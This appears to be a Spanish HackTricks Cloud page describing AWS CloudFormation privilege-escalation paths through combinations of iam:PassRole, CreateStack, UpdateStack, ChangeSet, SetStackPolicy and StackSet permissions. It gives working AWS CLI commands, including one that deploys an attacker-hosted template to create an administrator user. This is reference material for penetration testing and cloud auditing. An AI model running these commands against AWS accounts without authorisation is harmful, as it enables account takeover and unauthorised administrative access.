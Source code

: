 # AWS - Cloudformation Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Para más información sobre cloudformation consulta:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con los permisos **`iam:PassRole`** y **`cloudformation:CreateStack`** podría **escalar privilegios creando una plantilla de CloudFormation** que realizará acciones y creará recursos utilizando los **permisos del rol que se pasó** al crear una pila de CloudFormation.
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
Donde la plantilla ubicada en el sitio web del atacante incluye instrucciones para realizar **acciones maliciosas, como crear un usuario administrador** y luego usar esas credenciales para escalar su propio acceso.

En la siguiente página tienes un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso puedes **abusar de un stack de cloudformation existente** para actualizarlo y escalar privilegios como en el escenario anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
El permiso `cloudformation:SetStackPolicy` se puede utilizar para **otorgarte el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tienes este permiso pero **no `iam:PassRole`**, aún puedes **actualizar las pilas** utilizadas y abusar de los **Roles IAM que ya tienen adjuntos**. Consulta la sección anterior para ver un ejemplo de explotación (solo no indiques ningún rol en la actualización).

El permiso `cloudformation:SetStackPolicy` se puede utilizar para **otorgarte el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`, ((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear & ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation y abusar de los roles de servicio de cloudformation** al igual que con CreateStack o UpdateStack.

El siguiente exploit es una **variación del** [**CreateStack**](./#iam-passrole-cloudformation-createstack) utilizando los permisos de **ChangeSet** para crear una pila.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permisión `cloudformation:SetStackPolicy` puede ser utilizada para **darte permisos de `ChangeSet`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Esto es como el método anterior sin pasar **roles IAM**, así que puedes simplemente **abusar de los ya adjuntos**, solo modifica el parámetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto Potencial:** Privesc a los roles de cloudformation adjuntos.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

